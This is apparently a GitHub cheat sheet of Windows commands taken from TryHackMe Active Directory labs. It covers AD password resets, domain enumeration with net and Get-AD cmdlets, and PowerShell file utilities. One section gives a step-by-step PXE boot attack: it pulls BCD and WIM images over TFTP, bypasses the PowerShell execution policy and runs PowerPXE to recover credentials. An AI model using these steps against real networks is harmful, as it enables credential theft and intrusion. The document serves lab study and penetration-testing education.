 # Windows Commands

* [Active Directory](#active-directory)
* [Microsoft Deployment Toolkit](#microsoft-deployment-toolkit)
* [PowerShell](#powershell)


## Active Directory
Set password:
```
Set-ADAccountPassword [USERNAME] -Reset -NewPassword (Read-Host -AsSecureString -Prompt 'New Password') -Verbose
```
Another way:
```
Set-ADAccountPassword -Identity [USERNAME] -Server [DOMAIN] -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)
```
And Another way:
```
$Password = ConvertTo-SecureString "[PASSWORD]" -AsPlainText -Force
```
```
Set-ADAccountPassword -Identity "[USERNAME]" -Reset -NewPassword $Password
```
  
Force password reset on next login:
```
Set-ADUser -ChangePasswordAtLogon $true -Identity [USERNAME] -Verbose
```
Force group policy update:
```
gpupdate /force
```
List all users in the AD domain:
```
net user /domain
```
List info on a specific user:
```
net user "[USERNAME]" /domain
```
List Groups in the AD domain:
```
net group /domain
```
List info on a specific group:
```
net group "[GROUP-NAME]" /domain
```
Enumerate password policy:
```
net accounts /domain
```
Enumerate AD Users:
```
Get-ADUser -Identity [USERNAME] -Server [DOMAIN] -Properties *
```
Example:
```
Get-ADUser -Identity gordon.stevens -Server za.tryhackme.com -Properties *
```
Pretty Output:
```
Get-ADUser -Filter 'Name -like "*stevens"' -Server za.tryhackme.com | Format-Table Name,SamAccountName -A
```
Another Way:
```
Get-ADUser -Filter * -Properties * | select Name,SamAccountName,Description
```
Enumerate AD Groups:
```
Get-ADGroup -Identity [GROUP-NAME] -Server [DOMAIN]
```
Example:
```
Get-ADGroup -Identity Administrators -Server za.tryhackme.com
```
Enumerate group membership:
```
Get-ADGroupMember -Identity [GROUP-NAME] -Server [DOMAIN]
```
Example:
```
Get-ADGroupMember -Identity Administrators -Server za.tryhackme.com
```
Generic search for AD objects:
```
Get-ADObject [OPTIONS]
```
Example:
```
Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server za.tryhackme.com
```
Enumerate accounts that have a bad password count greater than 0:
```
Get-ADObject -Filter 'badPwdCount -gt 0' -Server [DOMAIN]
```
Get info about a specific domain:
```
Get-ADDomain -Server [DOMAIN]
```
* More info about the net command can be found here: https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/net-commands-on-operating-systems
* More info about cmdlets can be found here: https://learn.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps

************************************
## Microsoft Deployment Toolkit

Dowload BDC file via TFTP:
```
tftp -i [TARGET-IP] GET "\Tmp\[FILE-PATH]" conf.bcd
```

Recover the locations of the PXE boot images from the BCD file:
```
powershell -executionpolicy bypass
```
```
Import-Module .\PowerPXE.ps1
```
```
$BCDFile = "conf.bcd"
```
```
Get-WimFile -bcdFile $BCDFile
```
Download Image:
```
tftp -i [TARGET-IP] GET "[PXE-BOOT-IMAGE-LOCATION]" pxeboot.wim
```
Recovering Credentials from a PXE Boot Image:
```
Get-FindCredentials -WimFile pxeboot.wim
```

* Credit: https://tryhackme.com/room/breachingad

************************************
## PowerShell

Find location of a file:
```
Get-ChildItem -Path C:\ -Include *[FILENAME]* -File -Recurse -ErrorAction SilentlyContinue
```
Example:
```
Get-ChildItem -Path C:\ -Include *interesting-file.txt* -File -Recurse -ErrorAction SilentlyContinue
```
Get file hash:
```
Get-FileHash -Path "[FILE-PATH]" -Algorithm [ALGORITHM]
```
Example:
```
Get-FileHash -Path "C:\Program Files\interesting-file.txt.txt" -Algorithm MD5
```
Base64 decode a file:
```
certutil -decode "[FILE-PATH]" [OUTPUT-FILE]
```
Example:
```
certutil -decode "C:\Users\Administrator\Desktop\b64.txt" output.txt
```


************************************


## References
* https://tryhackme.com/room/breachingad
* https://tryhackme.com/room/adenumeration
* https://tryhackme.com/room/powershell
